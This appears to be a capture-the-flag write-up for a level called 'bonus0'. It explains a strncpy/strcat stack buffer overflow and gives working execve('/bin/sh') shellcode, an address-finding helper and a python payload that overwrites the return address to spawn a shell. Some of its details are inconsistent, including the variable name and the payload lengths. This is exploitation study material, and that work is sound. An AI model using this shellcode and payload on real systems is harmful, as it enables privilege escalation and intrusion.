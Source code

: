 looking at the code (see source.c) we can see that the program is vulnerable to a buffer overflow attack (like always).
it copy stdin into a buffer of 20 char using strncpy(dest, src, 20), but if src is greater than 20 bytes it will not be \0 terminated,
which mean the next strcat will read beyond the 20 char of the string.

wee need to overflow the main buffer of 54 bytes, which well do with:
input1(20) + input2(20) + reading stack because input2 is not \0 ended (3) + space(1) + input2(20) = 64 bytes
we need to put the address of our shellcode into input2 at the 54th byte, so the return address will be overwritten with the address of the shellcode.
the 54th byte is the 9th byte of input2, so we need to put the shellcode there.

for conveninence we will put the shellcode into a shell variable, and redirect the program to it's address:
`export code=$(python -c "print '\x90'*4+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80'")`

getting the address of the shellcode:
`./ressources/varaddr code`
```c
#include <stdio.h>
#include <stdlib.h>
int main(int argc, char **argv) {
  printf("%p\n", getenv(argv[1]));
}
```
`./a.out SHELLCODE` -> `0xbffff916`

input1 = `i*20` (20 bytes so it doesn't end with \0)
input2 = `i*9` + shellcode address + `i*7`

full payload:
`python -c "print 'i'*4095 + '\n' + 'i'*9 + '\x16\xf9\xff\xbf' + 'i'*70" > /tmp/a`
`cat /tmp/a - |./bonus0`
writes `iiiiiiiiiiiiiiiiiiiiiiiiiiiii���iiiiiii��� iiiiiiiii���iiiiiii���` as expected and we got a shell.
